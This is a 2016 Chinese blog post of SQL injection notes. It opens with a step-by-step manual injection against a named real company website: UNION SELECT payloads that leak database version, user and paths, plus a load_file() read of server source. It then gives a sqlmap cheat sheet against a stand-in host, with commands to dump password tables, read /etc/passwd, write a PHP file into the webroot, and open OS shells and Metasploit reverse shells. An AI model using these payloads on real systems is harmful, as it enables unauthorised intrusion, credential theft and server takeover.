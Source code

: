 ```yaml
---
title: "sql手注笔记"
layout: post
date: 2016-06-19 22:48
image: /assets/images/markdown.jpg
headerImage: false
tag:
- 学习笔记
- 漏洞
- sqlmap
blog: true
author: kullua
description: 初试sql手注


---
```

#该漏洞已修复

注入网址：http://www.microtek.com.cn/happystudy/happystudy_info.php?idnow=4
1.判断是否存在漏洞时，注意有空格，是 and 1=1；不是and 1=1；
数字型；
2.判断数据库
mysql
Warning: mysql_fetch_array():可看出数据库是mysql同时网页的地址上有php
3.猜长度
http://www.microtek.com.cn/happystudy/happystudy_info.php?idnow=4 order by 10-错
http://www.microtek.com.cn/happystudy/happystudy_info.php?idnow=4 order by 5  -对
长度为8
4.爆字段
http://www.microtek.com.cn/happystudy/happystudy_info.php?idnow=-4 union select 1,2,3,4,5,6,7,8
字段  2
5.爆数据库信息
http://www.microtek.com.cn/happystudy/happystudy_info.php?idnow=4 and 1=2 union select 1,group_concat(version(),0x3a,user(),0x3a,@@datadir,0x3a,@@version_compile_os),3,4,5,6,7,8

mysql：5.1.51-community
database（）：zjmall  数据库名
user（）：zjmall@localhost  用户名
@@version_compile_os:pc-linux-gnu  操作系统版本
@@datadir：/var/lib/mysql   数据库路径

转数据库名
0x7A6A6D616C6C

路径:/usr/local/apache/htdocs/happystudy/happystudy_info.php
http://www.microtek.com.cn/happystudy/happystudy_info.php?idnow=-4 union select load_file('/usr/local/apache/htdocs/happystudy/happystudy_info.php'),2



***

##sql帮助文件
-u #注入点
-f #指纹判别数据库类型
-b #获取数据库版本信息
-p #指定可测试的参数(?page=1&id=2 -p “page,id”)
-D “” #指定数据库名
-T “” #指定表名
-C “” #指定字段
-s “” #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s “xx.log”　　恢复:-s “xx.log” –resume)
–columns #列出字段
–current-user #获取当前用户名称
–current-db #获取当前数据库名称
–users #列数据库所有用户
–passwords #数据库用户所有密码
–privileges #查看用户权限(–privileges -U root)
-U #指定数据库用户
–dbs #列出所有数据库
–tables -D “” #列出指定数据库中的表
–columns -T “user” -D “mysql” #列出mysql数据库中的user表的所有字段
–dump-all #列出所有数据库所有表
–exclude-sysdbs #只列出用户自己新建的数据库和表
–dump -T “” -D “” -C “” #列出指定数据库的表的字段的数据(–dump -T users -D master -C surname)
–dump -T “” -D “” –start 2 –top 4 # 列出指定数据库的表的2-4字段的数据
–dbms #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB)
–os #指定系统(Linux,Windows)
-v #详细的等级(0-6)
0：只显示Python的回溯，错误和关键消息。
1：显示信息和警告消息。
2：显示调试消息。
3：有效载荷注入。
4：显示HTTP请求。
5：显示HTTP响应头。
6：显示HTTP响应页面的内容
–privileges #查看权限
–is-dba #是否是数据库管理员
–roles #枚举数据库用户角色
–udf-inject #导入用户自定义函数（获取系统权限）
–union-check #是否支持union 注入
–union-cols #union 查询表记录
–union-test #union 语句测试
–union-use #采用union 注入
–union-tech orderby #union配合order by
–method “POST” –data “” #POST方式提交数据(–method “POST” –data “page=1&id=2″)
–cookie “用;号分开” #cookie注入(–cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”)
–referer “” #使用referer欺骗(–referer “http://www.baidu.com”)
–user-agent “” #自定义user-agent
–proxy “http://127.0.0.1:8118″ #代理注入
–string “” #指定关键词
–threads 　　 #采用多线程(–threads 3)
–sql-shell #执行指定sql命令
–sql-query #执行指定的sql语句(–sql-query “SELECT password FROM mysql.user WHERE user = ‘root’ LIMIT 0, 1″ )
–file-read #读取指定文件
–file-write #写入本地文件(–file-write /test/test.txt –file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)
–file-dest #要写入的文件绝对路径
–os-cmd=id #执行系统命令
–os-shell #系统交互shell
–os-pwn #反弹shell(–os-pwn –msf-path=/opt/framework/msf3/)
–msf-path= #matesploit绝对路径(–msf-path=/opt/framework/msf3/)
–os-smbrelay #
–os-bof #
–reg-read #读取win系统注册表
–priv-esc #
–time-sec= #延迟设置 默认–time-sec=5 为5秒
-p “user-agent” –user-agent “sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)” #指定user-agent注入
–eta #盲注
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典
common-outputs.txt
common-tables.txt 表字典
keywords.txt
oracle-default-passwords.txt
user-agents.txt
wordlist.txt

###常用语句
1../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -f -b –current-user –current-db –users –passwords –dbs -v 0
2../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –passwords -U root –union-use -v 2
3../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –dump -T users -C username -D userdb –start 2 –stop 3 -v 2
4../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –dump -C “user,pass” -v 1 –exclude-sysdbs
5../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –sql-shell -v 2
6../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –file-read “c:\boot.ini” -v 2
7../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –file-write /test/test.txt –file-dest /var/www/html/1.txt -v 2
8../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-cmd “id” -v 1
9../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-shell –union-use -v 2
10../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 –priv-esc -v 1
11../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 -v 1
12../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-bof –msf-path=/opt/framework/msf3 -v 1
13../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 –reg-add –reg-key=”HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap” –reg-value=Test –reg-type=REG_SZ –reg-data=1
14../sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –eta
15../sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/get_str_brackets.php?id=1″ -p id –prefix “‘)” –suffix “AND (‘abc’='abc”
16../sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/basic/get_int.php?id=1″ –auth-type Basic –auth-cred “testuser:testpass”
17../sqlmap.py -l burp.log –scope=”(www)?\.target\.(com|net|org)”
18../sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/get_int.php?id=1″ –tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
19../sqlmap.py -u “http://www.evil0x.com/ sqlmap/mssql/get_int.php?id=1″ –sql-query “SELECT ‘foo’” -v 1
20../sqlmap.py -u “http://www.evil0x.com/ mysql/get_int_4.php?id=1″ –common-tables -D testdb –banner

###简单的注入流程
1.读取数据库版本，当前用户，当前数据库
sqlmap -u http://www.evil0x.com/ test.php?p=2 -f -b –current-user –current-db -v 1
2.判断当前数据库用户权限
sqlmap -u http://www.evil0x.com/ test.php?p=2 –privileges -U 用户名 -v 1
sqlmap -u http://www.evil0x.com/ test.php?p=2 –is-dba -U 用户名 -v 1
3.读取所有数据库用户或指定数据库用户的密码
sqlmap -u http://www.evil0x.com/ test.php?p=2 –users –passwords -v 2
sqlmap -u http://www.evil0x.com/ test.php?p=2 –passwords -U root -v 2
4.获取所有数据库
sqlmap -u http://www.evil0x.com/ test.php?p=2 –dbs -v 2
5.获取指定数据库中的所有表
sqlmap -u http://www.evil0x.com/ test.php?p=2 –tables -D mysql -v 2
6.获取指定数据库名中指定表的字段
sqlmap -u http://www.evil0x.com/ test.php?p=2 –columns -D mysql -T users -v 2
7.获取指定数据库名中指定表中指定字段的数据
sqlmap -u http://www.evil0x.com/ test.php?p=2 –dump -D mysql -T users -C “username,password” -s “sqlnmapdb.log” -v 2
8.file-read读取web文件
sqlmap -u http://www.evil0x.com/ test.php?p=2 –file-read “/etc/passwd” -v 2
9.file-write写入文件到web
sqlmap -u http://www.evil0x.com/ test.php?p=2 –file-write /localhost/mm.php –file-dest /var/www/html/xx.php -v 2